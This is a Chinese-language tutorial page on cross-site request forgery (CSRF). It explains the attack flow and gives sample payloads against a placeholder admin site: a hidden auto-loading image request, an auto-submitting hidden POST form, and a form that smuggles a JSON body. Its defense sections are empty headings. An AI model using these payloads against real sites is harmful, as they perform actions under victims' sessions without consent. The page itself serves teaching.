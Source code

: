 # CSRF 跨站偽造請求

CSRF (Cross-site request forgery) 跨站偽造請求，**駭客** 利用使用者在 **A 網** 已驗証的身份，在使用者進入 **第三網 (駭客架設)** 時，發起對 **A 網** 隱藏式的請求指令 **達成指定目的**，而非透過 **使用者** 的意願。
![creativegroundtech](/security/img/cross-site-request-forgery.webp)

> 圖片出處：creativegroundtech

1. 登入 **銀行網**
2. (成功) 取得使用者認證資料
3. 駭客發送 `釣魚網站` 或 `惡意連結` 給使用者
4. 使用者到 **駭客網站** 不知情下，送出了到 **銀行網** 的指令請求
5. 銀行依 2 取得的身份驗証，成功執行請求。

:::tip 瀏覽器機制
當發出 **請求** 給某個網域，其網域關聯的 `cookie` 也會一起被帶上 **請求** 之中，所以駭客就是利用 `cookie`中已驗證的身份，發動攻擊。
:::

## 攻擊方式

### GET

假設後台的 **刪除** 功能，可以直接以 `/delete?id=3` 來刪除 `id=3`的項目。理論上，使用者必須先驗證過個人資料，且在後台操作才會執行 **刪除**。

```html
<a href="/delete?id=3"> 刪除 </a>
```

<table>
  <tr>
    <td>標題</td>
    <td>更新時間</td>
    <td>操作</td>
  </tr>
  <tr>
    <td>這是資料</td>
    <td>2021-12-15</td>
    <td><button>刪除</button></td>
  </tr>
</table>

#### 駭客行為

在使用者已登入過後台的情況下，對你發送 **釣魚網站** 、 **惡意連結**，在惡意網站內或連結中，寫入下面內容 (假設 後台 網址：`https://www.admin.com`)：

- **被動**

  進入網站後 「點擊」 執行 **請求**

  ```html
  <a href="https://www.admin.com/delete?id=3">開始測驗</a>
  ```

  <a>開始測驗</a>

  當你點下時，就是到了 `https://www.admin.com` 且送出了 **DELETE** 指令，刪除了某個東西。

- **主動**

  進入網站時，就 **自動送出請求**

  ```html
  <img src="https://www.admin.com/delete?id=3" width="0" height="0" />
  <a href="/test">開始測驗</a>
  ```

  將 `<img>` 設為 **隱藏**，當網站進入後，就會請求 `url`，在不知情下就被攻擊了。

### POST

如果**刪除功能** 是 ` POST`，駭客也可以使用 `<form>` 來主動提交表單，這是藉由 `<iframe>` 來隱藏 `<form>` 的表單顯示。[stackoverflow](https://stackoverflow.com/questions/17940811/example-of-silently-submitting-a-post-form-csrf)

```html {1,3,4,8,13}
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="https://www.admin.com/delete"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="id" value="3" />
  <input type="submit" value="submit" />
</form>

<script>
  document.getElementById('csrf-form').submit()
</script>
```

> 當進入網站，就送出表單。

### JSON 傳送

常見與後端溝通的 `json` ，也是有機會被攻擊，主要是透過 **字元** 組合達到指定的 `json` 樣式。

```html {4,}
<form
  action="https://small-min.blog.com/delete"
  method="post"
  enctype="text/plain"
>
  <input name='{"id":3, "ignore_me":"' value='test"}' type="hidden" />
  <input type="submit" value="delete!" />
</form>
```

## 防禦方式

### 前端

### 後端

### 瀏覽器

## Reference

- [讓我們來談談 CSRF](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)
- [全端勇士之路 Node.js 基礎學習-CSRF 篇](https://hsiangfeng.github.io/nodejs/20190704/2336420619/)
- [imperva - Cross site request forgery (CSRF) attack](https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/)
